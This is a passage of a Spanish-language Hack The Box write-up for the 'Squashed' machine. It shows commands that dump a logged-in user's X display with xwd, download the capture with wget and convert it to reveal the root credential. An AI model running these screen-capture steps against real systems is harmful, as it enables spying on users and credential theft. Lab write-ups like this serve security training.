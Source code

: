 ```bash
alex@squashed:/home/alex$ xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```

Nos traemos la captura guardada y la convertimos en un formato legible

```bash
❯ wget http://10.10.11.191:8080/screen.xwd
--2022-12-07 17:37:11--  http://10.129.17.11:8080/screen.xwd
Conectando con 10.129.17.11:8080... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1923179 (1,8M) [image/x-xwindowdump]
Grabando a: «screen.xwd»

screen.xwd                                      100%[====================================================================================================>]   1,83M  4,48MB/s    en 0,4s    

2022-12-07 17:37:11 (4,48 MB/s) - «screen.xwd» guardado [1923179/1923179]

convert screen.xwd screen.png
```

Abrimos la captura y encontramos la credencial de root

<img src="/assets/HTB/Squashed/screen.png">
